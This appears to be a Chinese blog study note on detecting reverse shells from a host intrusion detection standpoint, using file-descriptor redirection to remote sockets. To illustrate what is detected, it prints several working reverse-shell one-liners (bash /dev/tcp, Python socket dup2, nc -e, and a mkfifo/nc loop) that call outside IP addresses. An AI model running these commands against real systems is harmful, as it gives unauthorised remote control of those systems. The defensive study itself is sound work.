

前言
从hids的角度出发，看反弹shell的特征。
最简单的，可以根据进程黑名单直接监测到一些反弹shell，如nc、socat、bash -i >& /dev/tcp/xxx/xxx。这种检测也是很好绕过的，给可执行文件的名字换了即可。
所以这次学习一下通用的反弹shell检测方式——文件描述符重定向。
特征1. 所有文件描述符重定向至远程socket
bash -i
1 | bash -i >& /dev/tcp/192.168.7.61/7777 0>&1 |
创建了一个常住进程”bash -i”， 012文件描述符都被重定向至远程socket链接。
1 | pauser@ubuntu:~$ ps -ef| grep bash |
lsof: 查看进程打开的文件的工具
python/perl/ruby等脚本语言类反弹shell
1 | python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('106.52.206.218',8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" |
文件描述符也是都被重定向至远程socket连接.
1 | pauser@ubuntu:~$ ls -l /proc/45638/fd |
nc 反弹shell
1 | /bin/nc.traditional -e /bin/bash 134.175.2.34 8888 |
进程中对应的是bash：

文件描述符：
特征2. 通过管道、重定向多次后连接至远程
nc重定向
1 | /bin/nc.traditional 134.175.2.34 8888 | /bin/bash |
根据bash进程定位到文件描述符，发现输入描述符0被重定向至管道：

定位管道另一端的进程nc，该进程文件描述符3连接远程socket连接：
还有一个nc反弹shell命令：
1 | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 110.211.55.2 7777 >/tmp/f |
mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准
输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路
定位到sh -i进程：
根据pipe找到nc进程，描述符3重定向至远程socket连接：
总结：
0，1，2标准输入输出、错误输出流被指向pipe管道，管道指向到另一个进程会有一个对外的socket链接，中间或许经过多层管道，但最终被定向到的进程必有一个socket链接。
特征3. socat
1 | 反弹命令 |
定位文件描述符：
SOCK_DGRAM 是无保障的面向消息的socket，主要用于在网络上发广播信息。
bash通过管道与socat进程通信，但是管道并不是重定向的标准输入输出、标准错误输出这三个流，而是其他的流，然后在程序内部再将该pipe管道定向到0，1，2这三个文件描述符。
其它（待研究）
- MSF生成的python payload
- DNS/ICMP 反弹shell